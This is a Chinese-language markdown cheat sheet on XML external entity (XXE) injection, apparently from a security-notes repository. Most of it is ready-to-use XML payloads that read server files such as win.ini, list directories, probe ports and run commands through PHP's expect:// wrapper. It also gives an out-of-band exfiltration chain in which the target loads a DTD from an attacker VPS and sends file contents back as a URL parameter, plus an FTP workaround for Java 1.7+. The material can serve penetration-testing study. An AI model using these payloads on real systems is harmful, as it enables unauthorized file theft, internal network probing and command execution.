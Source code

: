 # XXE Injection
---
###漏洞介绍
XXE漏洞可以用于进行文件读取、列目录、SSRF（内网端口探测等）甚至于执行命令（依赖于PHP的环境下的expect扩展）。漏洞一般出现在有XML作为数据传输，并且服务器会将用户输入解析为XML的地方。  

Exaple:  
定义**xxe**，引用**&xxe**  

```
POST /****** HTTP/1.1
*****
*****
*****

<?xml version="1.0"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///windows/win.ini">]>
<Search><SearchTerm>&xxe;</SearchTerm></Search>
```

###攻击方式

####爆路径
基本的使用套路是在POST包中加上以下代码，可以爆路径

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % remote SYSTEM "test">%remote;]>
```

####读文件

使用下面代码：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % remote SYSTEM "file:///文件路径">%remote;]>
```

若读取的文件中包含<、>、等XML标签符号，是无法正常读取文件内容的。

这边说下php下的解决方案，php中以这样的方式读取文件内容会将文件内容base64编码返回，这就屏蔽了那些XML标签符号，这也是普通php文件读取里常见的套路。

`php://filter/write=convert.base64-decode/resource=`
	
####列目录

根据乌云里很多漏洞的说明，看到一种列目录的方式是，使用`file:///`协议，但是后面不跟上路径：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % remote SYSTEM "file:///文件路径">%remote;]>
```

这样可以列出目录

####命令执行

针对PHP环境下的expect扩展：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % remote SYSTEM "expect://命令">%remote;]>
```

####探测端口

可以使用http来访问某个IP的端口，根据回显大致判断是否开启端口
	
####上面几个攻击方式的拓展————引入外部实体方式

以上攻击方式的结果是在有回显的情况下才能看到效果，若是没有回显，也可以使用引入外部实体的方式，具体操作为，在POST请求包中加入以下代码：

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [<!ENTITY % remote SYSTEM "http://ip:port/1.xml">%remote;]>
```

其中的URL为自己本机或者VPS，本机的话可以使用`python -m SimpleHTTPServer 8080`命令来开启一个简单的HTTP服务器。而`1.xml`的内容如下:

```
<!ENTITY % a SYSTEM "file:///文件路径">
<!ENTITY % b "<!ENTITY % c SYSTEM 'http://ip:port/?log=%a;'>"> %b; %c;
```

第一段代码的意思是让服务器的XML解释器访问URL中的外部实体；第二段代码前一个标签是读取服务器上的文件内容，第二个标签是把读取到的内容作为URL中log的参数，访问这个URL。然后可以在我们的服务器请求日志中看到文件的内容。这就达到了得到回显的目的，这个方法同样适用于列目录、命令执行等。


###报错解决

针对`illegal character in URL`报错问题

这个是存在在`Java1.7+`上，由于这个版本会检查HTTP请求中URL里的非法字符造成，可以通过搭建FTP服务器，在FTP服务器中接收信息。这个版本不检查FTPURL中的非法字符。

[Referer](http://lab.onsec.ru/2014/06/xxe-oob-exploitation-at-java-17.html)